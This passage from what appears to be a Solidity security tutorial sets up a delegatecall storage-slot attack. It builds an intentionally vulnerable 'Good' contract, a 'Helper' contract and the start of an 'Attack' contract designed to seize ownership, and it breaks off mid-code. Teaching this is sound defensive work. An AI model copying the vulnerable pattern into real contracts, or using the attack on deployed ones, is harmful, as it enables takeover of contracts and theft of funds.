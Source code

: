 Now you have a hardhat project ready to go!

Let's start off by creating an innocent looking contract - `Good.sol`. It will contain the address of the `Helper` contract, and a variable called `owner`. The function `setNum` will do a `delegatecall()` to the `Helper` contract.

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Good {
    address public helper;
    address public owner;
    uint public num;

    constructor(address _helper) {
        helper = _helper;
        owner = msg.sender;
    }

    function setNum( uint _num) public {
        helper.delegatecall(abi.encodeWithSignature("setNum(uint256)", _num));
    }
}
```

After creating `Good.sol`, we will create the `Helper` contract inside the `contracts` directory named `Helper.sol`. This is a simple contract which updates the value of `num` through the `setNum` function. Since it only has one variable, the variable will always point to `Slot 0`. When used with `delegatecall`, it will modify the value at `Slot 0` of the original contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Helper {
    uint public num;

    function setNum(uint _num) public {
        num = _num;
    }
}
```

Now create a contract named `Attack.sol` within the `contracts` directory and write thee following lines of code. We will understand how it works step by step.

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    address public helper;
    address public owner;
    uint public num;

    Good public good;

    constructor(Good _good) {
        good = Good(_good);
    }

    function setNum(uint _num) public {
        owner = msg.sender;
    }
```